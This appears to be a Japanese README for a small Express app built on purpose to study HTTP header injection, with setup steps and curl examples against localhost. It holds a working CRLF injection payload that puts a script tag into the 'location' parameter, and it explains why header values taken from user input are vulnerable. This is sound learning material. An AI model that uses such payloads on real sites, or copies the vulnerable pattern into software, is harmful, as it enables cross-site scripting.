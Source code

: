 # SelfMadeHttpHeader

HTTPヘッダを手入力する。  
HTTPヘッダインジェクションの調査

## 起動

``` sh
cd app
npm install
npm start
```

## curl

### location=hogehoge

``` sh
curl localhost:3000?location=%0d%0dhogehoge --head
```

``` sh
HTTP/1.1 200 OK
X-Powered-By: Express
Location: hogehoge
Content-Type: text/html; charset=utf-8
Content-Length: 11
ETag: W/"b-Ck1VqNd45QIvq3AZd8XYQLvEhtA"
Date: Thu, 08 Apr 2021 08:04:07 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

### HTTPヘッダインジェクション

``` sh
curl http://localhost:3000?location=%0d%0d<script type=”text/javascript”>alert(“HTTPヘッダにインジェクション”);</script> --head
```

ヘッダの出力順によってはJavaScriptが実行される。

HTTPリクエストヘッダとHTTPリクエストボディを分ける要素は改行なので、GETパラメータ等で取得した値をリクエストヘッダに設定するような実装をしていると、余計な改行＋JavaScriptを仕込まれる可能性があり、脆弱性につながる。

## 参考

- [安全なウェブサイトの作り方 - 1.7 HTTPヘッダ・インジェクション：IPA 独立行政法人 情報処理推進機構](https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_7.html)